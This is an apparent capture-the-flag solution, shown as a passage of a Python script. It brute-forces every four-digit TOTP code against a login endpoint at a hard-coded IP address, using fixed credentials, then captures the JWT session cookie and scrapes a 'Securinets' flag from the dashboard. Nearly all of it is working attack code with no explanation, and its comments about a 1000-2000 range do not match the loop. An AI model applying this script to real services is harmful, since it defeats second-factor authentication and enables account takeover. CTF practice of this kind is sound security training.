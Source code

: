 ```python
    login_url = "http://51.77.140.155:9100/login"
    dashboard_url = "http://51.77.140.155:9100/dashboard"
    headers = {
        "Host": "51.77.140.155:9100",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate, br",
        "Content-Type": "application/x-www-form-urlencoded",
        "Origin": "http://51.77.140.155:9100",
        "Connection": "keep-alive",
        "Referer": "http://51.77.140.155:9100/login",
        "Upgrade-Insecure-Requests": "1",
        "Priority": "u=0, i"
    }

    print("Starting sequential TOTP brute-force from 1000 to 2000...")
    for totp in range(0000,9999):
        totp_str = str(totp).zfill(4)
        data = {
            "username": "KonaN.g7q9g4ea7q@seurinets.tekup",
            "password": "ywrq4loihIWcRewq",
            "totp": totp_str,
            "loginstep1": ""
        }

        print(f"Trying TOTP: {totp_str}")

        try:
            response = requests.post(login_url, headers=headers, data=data, allow_redirects=False, timeout=10)
            if response.status_code == 302:
                print(f"\nLogin successful with TOTP: {totp_str}")
                cookies = response.cookies
                jwt_cookie = cookies.get("access_token_cookie")
                print(f"JWT Cookie: {jwt_cookie}")

                dash_response = requests.get(dashboard_url, 
                                           cookies={"access_token_cookie": jwt_cookie}, 
                                           timeout=10)
                response_text = dash_response.text
                print(f"Dashboard response: {response_text}")

                if "Securinets" in response_text:
                    flag = response_text.split("Securinets")[1].split("}")[0]
                    flag = f"Securinets{{{flag}}}"
                    print(f"\nSuccess! Flag: {flag} (TOTP: {totp_str})")
                    return flag
                else:
                    print("No flag found in dashboard response.")
            else:
                print(f"TOTP {totp_str} failed (Status: {response.status_code})")
        except Exception as e:
            print(f"Error for TOTP {totp_str}: {e}")
            continue

    print("Failed to find correct TOTP after trying 1000-2000.")
    return None

if __name__ == "__main__":
    print("Brute-forcing TOTP (1000-2000) sequentially via /login...")
    if test_connectivity():
```